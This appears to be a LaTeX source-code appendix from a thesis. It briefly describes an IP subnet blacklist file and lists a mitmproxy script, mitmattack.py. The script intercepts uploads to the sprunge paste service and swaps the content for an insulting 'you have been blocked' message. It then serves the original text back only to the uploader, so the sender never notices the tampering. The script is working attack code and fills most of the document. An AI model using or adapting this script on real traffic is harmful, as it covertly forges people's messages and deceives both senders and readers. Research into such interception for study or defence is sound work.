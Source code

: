\documentclass[mscthesis]{usiinfthesis}
\begin{document}
\section{ip\_subnet\_blacklist.txt}\label{sec:ip_subnet_blacklist.txt}
\paragraph{}
It is a text file with lines of IP subnets. Lines starting with \# are treated as comments and are ignored. IP addresses matching any one of the subnets in the file will be blocked.

\section{mitmattack.py}\label{sec:mitmattack.py}
\begin{lstlisting}[language=Python,frame=single,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
#!/bin/python3
from mitmproxy import http
import logging

hidden_truth={}
what_others_see="Who do you think you are? How dare you to give me suggestions like this? Your naive ideas will never work. You have been blocked. *NEVER* send me emails again."

def request(flow: http.HTTPFlow) -> None:
  if flow.request.text:
    if 'Content-Disposition: form-data; name="sprunge"' in flow.request.text:
      lines = flow.request.text.split("\r\n")
      setattr(flow, "spurnge", lines[3:-2])
      lines = lines[:3] + [what_others_see] + lines[-2:]
      flow.request.text = "\r\n".join(lines)
  for url, text in hidden_truth.items():
    print(url, flow.request.url)
    if flow.request.url.startswith(url):
      setattr(flow, "binyong", text)
      print(1111)
      break	  

def response(flow: http.HTTPFlow) -> None:
  if hasattr(flow, "spurnge"):
    truth = "\r\n".join(flow.spurnge)
    hidden_truth[flow.response.text.strip()] = truth
    hidden_truth["https" + flow.response.text.strip()[4:]] = truth
    print(flow.response.text)
  if hasattr(flow, "binyong"):
    flow.response.text = flow.binyong
    print(flow.response.text)
\end{lstlisting}
\end{document}
